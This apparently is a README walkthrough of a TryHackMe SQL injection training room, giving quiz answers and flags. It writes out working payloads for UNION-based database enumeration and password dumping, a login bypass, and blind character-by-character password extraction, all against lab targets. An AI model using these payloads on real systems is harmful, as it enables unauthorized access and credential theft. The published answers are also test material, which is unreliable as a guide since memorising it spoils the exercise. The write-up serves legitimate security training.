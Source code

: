 <h1 align='center'>:fire: TryHackMe SQL Injection room :fire: </h1>

![show image](images/1-show.png)<br/>
[SQL Injection Room](https://tryhackme.com/room/sqlinjectionlm)


## Task 1: Breif
### Q: What does SQL stand for?
![what does](images/2-what-does.png)<br/>
#### A: `Structured Query Language` :heavy_check_mark:<br/>

## Task 2: What is database?
### Q: What is the acronym for the software that controls a database?
![dbms](images/3.png)<br/>
#### A: `DBMS` :heavy_check_mark:<br/>

### Q: What is the name of the grid-like structure which holds the data?
![table](images/4-table.png)<br/>
#### A: `table` :heavy_check_mark:<br/>

## Task 3: What is SQL?
### Q: What SQL statement is used to retrieve data?
![select](images/5-select.png)<br/>
#### A: `SELECT` :heavy_check_mark:<br/>

### Q: What SQL clause can be used to retrieve data from multiple tables?
![union](images/6-union.png)<br/>
#### A: `UNION` :heavy_check_mark:<br/>

### Q: What SQL statement is used to add data?
![insert](images/7-insert.png)<br/>
#### A: `INSERT` :heavy_check_mark:<br/>

## Task 4: What is SQL Injection?
### Q: What character signifies the end of an SQL query?
![semicolon](images/8-semicolon.png)<br/>
#### A: `;` :heavy_check_mark:<br/>

## Task 5: In-Band SQLi
### Q: What is the flag after completing level 1?
    '
![apostrophe](images/9-apostrophe.png)<br/>
Try typing an apostrophe `'` after the `id=1` and press enter. And you'll see this returns an SQL error informing you of an error in your syntax.<br/>

    1 UNION SELECT 1,2,3
![error solved](images/10-error-solved.png)<br/>
Success,  the error message has gone, and the article is being displayed, but now  we want to display our data instead of the article.<br/>

Now change value `1` to `0` before UNION

    0 UNION SELECT 1,2,3
![change value](images/11-change-value.png)<br/>
You'll now see the article is just made up of the result from the UNION select returning the column values `1, 2, and 3`<br/>

    0 UNION SELECT 1,2,database()
![datanase](images/12-database.png)<br/>
It now shows the name of the database, which is `sqli_one`.<br/>

    0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
![tables name](images/13-get-tables-name.png)<br/>
The information we want to retrieve has changed from table_name to `column_name`, the table we are querying in the information_schema database has changed from tables to `columns`, and we're searching for any rows where the `table_name` column has a value of `staff_users`.<br/>

    0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
![columns](images/14-all-columns.png)<br/>
We get all the columns name of `stuff_users` table

    0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
![password](images/15-password.png)<br/>
#### A: `THM{SQL_INJECTION_3840}` :heavy_check_mark:<br/>

## Task 6: Blind SQLi - Authentication Bypass
### Q: What is the flag after completing level two? (and moving to level 3)
    username anything and password field ' OR 1=1;--
![sqli in password](images/16-sqli-in-pwd.png)<br/>
![next button](images/17-click-next.png)<br/>
#### A: `THM{SQL_INJECTION_9581}` :heavy_check_mark:<br/>


## Task 7: Blind SQLi - Boolean Based
### Q: What is the flag after completing level three?
    admin123' UNION SELECT 1;-- 
![incorrent column](images/18-incorrect-column.png)<br/>
As the web application has responded with the value taken as false, we can confirm this is the incorrect value of columns.<br/>

    admin123' UNION SELECT 1,2,3;-- 
![Column error fixed](images/19-column-error-fixed.png)<br/>
Now that our number of columns has been established, we can work on the  enumeration of the database.<br/>

    admin123' UNION SELECT 1,2,3 where database() like 's%';-- 
![Get db name](images/20-get-database-name.png)<br/>
After many tryed i've found full database name, which is `sqli_three`<br/>

Now we need to enumerate `table names` using a similar method.
    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--
![table name](images/21-table-name.png)<br/>

    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
![full table name](images/22-full-table-name.png)<br/>
After many tryed i've found full table name, which is `users`<br/>

    admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME !='%username%'; ---
![column name](images/23-column-name-found.png)<br/>
I've found a column called `username` under the `users` table and database `sql_three`<br/>

    admin123' UNION SELECT 1,2,3 from users where username like 'a%
![username start](images/24-username-start-point.png)<br/>
As you can see username character start with `a`

    admin123' UNION SELECT 1,2,3 from users where username like 'admin%
![username found](images/25-username-found.png)<br/>
I've found username `admin`<br/>

    admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3%
![finding password](images/26-finding-password.png)<br/>
As you can see here password character start with `3`<br/>

    admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3845%
![password found](images/27-password-also-found.png)<br/>
After many tryed I've found the password like `3845` and I'm logged in successfully and get the flag.<br/>
#### A: `THM{SQL_INJECTION_1093}` :heavy_check_mark:<br/>